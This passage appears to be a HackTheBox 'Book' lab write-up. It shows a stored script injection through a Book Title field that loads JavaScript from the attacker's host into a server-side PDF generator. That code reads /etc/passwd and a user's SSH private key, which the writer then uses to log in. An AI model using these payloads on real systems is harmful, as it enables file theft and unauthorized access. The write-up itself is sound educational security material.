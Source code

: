 Bingo, we are admin on the web interface, this method was unknown to me before.

The admin interface is somewhat similar to the normal user interface, but there is a function that creates a PDF of the previous collections.

![admin collection](../../../../assets/images/hackthebox/book/8_admin_collection.png)

If you click on the link PDF, the PDF will be created in the background, so this could be a gateway.
As soon as you start inserting code, the created PDF is changed, or is empty.

# exploit

As a normal user I tried to inject code via the Book Title field. This did not always work that well, so I created a local JavaScript file and loaded
this file to the target via a web server. This also has the advantage that if I make changes to my exploit, I only have to create a new PDF as admin and the code will
automatically downloaded from my computer.

Here is the line I use as Book Title.

```html
<script src="http://10.10.14.34:9090/exploit.js"></script>
```

The file that is additionally uploaded with is arbitrary.

![begin exploitation](../../../../assets/images/hackthebox/book/9_begin_exploit.png)

My first approach should try to read a local file on the server and write the content to the PDF.

```js
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText)};
x.open("GET","file:///etc/passwd");x.send();
```

It works, now I have the possibility to upload files from the server, I have tried a lot.

![begin exploitation](../../../../assets/images/hackthebox/book/10_passwd.png)

Finally I found an SSH key in the home directory of the user Reader. But the key itself can't be written correctly into the PDF, so I add a line break after 40 characters to my exploit.

```js
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText.replace(/(.{40})/g, "$1<br>"))};
x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();
```

This looks very good, so I have the private key of the user reader.

![rsa key](../../../../assets/images/hackthebox/book/11_key.png)

Let's see if this works.

![ssh access](../../../../assets/images/hackthebox/book/12_ssh_access.png)
